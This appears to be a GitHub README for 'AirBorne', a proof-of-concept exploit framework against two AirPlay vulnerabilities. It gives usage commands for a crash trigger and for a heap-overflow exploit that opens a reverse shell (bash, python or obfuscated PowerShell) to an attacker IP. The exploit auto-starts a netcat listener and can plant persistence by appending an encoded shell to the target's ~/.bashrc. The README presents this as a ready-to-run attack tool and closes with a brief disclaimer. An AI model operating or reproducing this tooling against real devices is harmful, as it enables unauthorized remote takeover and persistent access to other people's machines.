 # AirBorne PoC Framework – Elite RCE Edition

> **Full PoC Framework for CVE-2025-24252 & CVE-2025-24132**  
> By [ekomsSavior](https://github.com/ekomsSavior) | 

AirBorne is a combined proof-of-concept (PoC) framework targeting two serious vulnerabilities in Apple's AirPlay service. It includes a full crash trigger and a working reverse shell exploit with optional persistence, listener, and multiple payload formats — all in one script.

> 💾 **Looking for the original version?**  
> The legacy edition is still available in the `legacy` branch of this repository.  
> To check it out:

```bash
git checkout legacy
```

---

## CVEs Covered

### ✅ CVE-2025-24252 – mDNS TXT Record Crash
- Triggers a crash in the AirPlayReceiver daemon via a malformed mDNS packet
- Works over UDP broadcast on port 5353

### ✅ CVE-2025-24132 – Heap Overflow → Reverse Shell (RCE)
- Triggers a heap overflow in AirPlay's TCP service on port 7000
- Supports bash, python, and PowerShell reverse shell payloads
- Includes optional persistence using `.bashrc` injection (Linux)

---

## Getting Started

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/AirBorne-PoC.git
cd AirBorne-PoC
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install -y python3-scapy netcat
```

---

## Runtime Walkthrough

The single script `airborne.py` includes both PoCs and all logic:

* Select a CVE using `--exploit`
* Set a reverse shell payload using `--payload`
* Auto-starts a netcat listener for you
* Optionally enables persistence on target using `--persistent`

---

## Usage Examples

### Crash Target with mDNS Packet (CVE-2025-24252)

```bash
sudo python3 airborne.py --exploit 24252 --interface wlan0
```

> Requires an interface in monitor mode.

---

### Launch Heap Overflow → RCE (CVE-2025-24132)

Start full exploit with default bash shell:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99
```

Choose Python shell instead:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99 --payload python
```

Enable real persistence on Linux targets:

```bash
sudo python3 airborne.py --exploit 24132 --target 192.168.1.42 --attacker 192.168.1.99 --persistent
```

Only shell command einjection

```bash
sudo python3 airborne_bash_command_injector.py --exploit 24132 --target 192.168.1.42 --command "command"
```

---

## Payload Options

| Payload      | Description                                         |
| ------------ | --------------------------------------------------- |
| `bash`       | Default bash reverse shell over TCP                 |
| `python`     | Python-based reverse shell using `socket` and `pty` |
| `powershell` | Full Windows PowerShell RCE payload (obfuscated)    |

---

## Persistence Mode

When using `--persistent`, the script will append the encoded reverse shell payload to the target’s:

```bash
~/.bashrc
```

This ensures a shell is returned to you each time the user logs in or a terminal is spawned.

---

## Maintenance Notes

* Reverse shells are encoded using `base64` and delivered after buffer overflow
* All payloads are sent via port 7000
* mDNS packets go over UDP 5353 and require raw socket permission
* Make sure your attack box IP is reachable by the target device
* Script handles basic error cases and fails silently if closed ports

---

## Ethical Disclaimer

**This project is intended for educational, ethical, and authorized research only.**

* You must have explicit permission to test the target system.
* You assume full responsibility for any actions taken.

Unauthorized exploitation of systems is illegal and unethical.

---

## Credits

* Built by [ekomsSavior](https://github.com/ekomsSavior) 
* Inspired by real-world CVEs and exploit development research


